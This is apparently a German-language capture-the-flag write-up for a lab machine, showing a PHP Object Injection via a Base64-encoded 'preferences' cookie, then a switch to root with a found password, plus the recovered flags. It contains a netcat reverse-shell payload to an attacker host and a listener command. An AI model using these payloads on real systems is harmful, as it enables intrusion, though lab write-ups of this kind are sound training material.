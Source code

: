 ### vanity zu root (Passwortfund)

1.  **Enumeration als `vanity`:**
    *   Im Home-Verzeichnis von `vanity` oder durch Untersuchung des Skripts `/usr/local/bin/php-server.sh` (Details im Log unklar) wurde das Passwort `LightningBolt123` gefunden.

2.  **Benutzerwechsel zu `root`:**
    *   `vanity@jo2024:~$ su root` mit dem Passwort `LightningBolt123` war erfolgreich.
    *   Voller Root-Zugriff wurde erlangt.

---

## Proof of Concept (Initial Access via POI)

**Kurzbeschreibung:** Der initiale Zugriff erfolgte durch Ausnutzung einer PHP Object Injection Schwachstelle. Ein Cookie (`preferences`) enthielt einen Base64-kodierten, serialisierten PHP-String. Durch Manipulation dieses Strings, speziell des `language`-Feldes, konnte ein serialisiertes Objekt erstellt werden, das beim Deserialisieren auf dem Server einen `nc`-Befehl ausführte und eine Reverse Shell zum Angreifer startete.

**Schritte:**
1.  Identifiziere den `preferences`-Cookie auf `http://jo2024.hmv/preferences.php`.
2.  Dekodiere den Cookie-Wert (Base64).
3.  Modifiziere den serialisierten PHP-String, um eine Reverse-Shell-Payload im `language`-Feld einzufügen:
    ```php
    // Beispiel für den manipulierten Teil des Objekts
    // $obj->language = "nc -e /bin/bash [IP_DES_ANGREIFERS] [PORT]";
    // Serialisiere das modifizierte Objekt und kodiere es mit Base64.
    // Beispiel-Payload (Base64-kodiert):
    // TzoxNToiVXNlclByZWZlcmVuY2VzIjoyntzjg6Imxhbmd1YWdlIjtzOjM0OiJuYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC4yLjE5OSA4MDAwIjtzOjE1OiJiYWNrZ3JvdW5kQ29sb3IiO3M6NDoiI2RkZCI7fQ==
    ```
4.  Starte einen Netcat-Listener auf dem Angreifer-System: `nc -lvnp [PORT]`.
5.  Setze den modifizierten, Base64-kodierten Cookie-Wert im Browser und lade `preferences.php` neu.
**Ergebnis:** Eine Reverse Shell als `www-data` verbindet sich zum Listener.

---

## Flags

*   **User Flag (`/home/vanity/user.txt`):**
    ```
    e2cb9d6e0899cde91130ca4b37139021
    ```
*   **Root Flag (`/root/root.txt`):**
    ```
    cbd60dab37bc85e1f7ea4b5c9c4eed90
    ```

---
